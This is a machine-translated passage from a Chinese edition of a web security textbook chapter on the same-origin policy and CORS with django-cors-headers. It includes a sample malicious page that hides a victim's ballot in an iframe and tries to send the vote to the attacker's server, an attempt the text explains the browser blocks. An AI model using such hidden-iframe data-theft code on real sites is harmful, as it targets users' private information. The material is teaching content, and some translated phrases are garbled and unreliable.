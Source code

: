 # 17 跨产地资源共享

本章涵盖

*   了解同源政策
*   发送和接收简单的 CORS 请求
*   实现 CORS 与 `django-cors-headers`
*   发送和接收预先审核的 CORS 请求

在第 15 章中，你学习了 URL 的协议(方案)、主机和端口是如何定义的。每个浏览器都实行一个*同源策略* ( *SOP* )。该策略的目标是确保只有“相同来源”的文档才能访问某些资源这可以防止来自 mallory.com 的页面未经授权访问来自 ballot.charlie.com 的资源。

把*跨产地资源共享* (CORS)当成一种放松浏览器 SOP 的方式。这允许 social.bob.com 从 https://下载字体。它还允许来自 alice.com 的页面向 social.bob.com 发送异步请求。在本章中，我将向您展示如何使用 `django-cors-headers` 安全地创建和使用共享资源。由于 CORS 的性质，本章包含的 JavaScript 比 Python 多。

## 17.1 同源保单

到现在，你已经看到马洛里获得了对许多资源的未授权访问。她用彩虹表破解了查理的密码。她用一个 `Host` 头球攻门接管了鲍勃的账户。她知道爱丽丝和 XSS 投票给了谁。在这一节中，马洛里发起了一次简单得多的攻击。

假设马洛里想知道鲍勃在 2020 年美国总统大选中投票给了谁。她引诱他回到 mallory.com，他的浏览器呈现了以下恶意网页。这个页面悄悄地从 ballot.charlie.com(Bob 当前登录的站点)请求 Bob 的选票表单。然后，包含 Bob 投票的选票表单被加载到一个隐藏的 iframe 中。这触发了一个 JavaScript 事件处理器，该处理器*试图*读取鲍勃的投票并将其发送到马洛里的服务器。

Mallory 的攻击惨败，如下面的清单所示。鲍勃的浏览器阻止她的网页访问 iframe 文档属性，取而代之的是一个 `DOMException` 。SOP 拯救了世界。

清单 17.1 马洛里未能窃取鲍勃的私人信息

```py
<html>
  <script>
    function recordVote(){
      const ballot = frames[0].document.getElementById('ballot');   ❶

      const headers = {
        'Content-type': 'application/x-www-form-urlencoded; charset=UTF-8'
      };
      fetch('/record/', {                                           ❷
        method: 'POST',                                             ❷
        headers: headers,                                           ❷
        body: 'vote=' + ballot.value                                ❷
      });                                                           ❷
    };
  </script>
  <body>
    ...

    <iframe src="https://ballot.charlie.com/"                       ❸
            onload="recordVote()"                                   ❹
            style="display: none;">                                 ❺
    </iframe>
  </body>
</html>
```
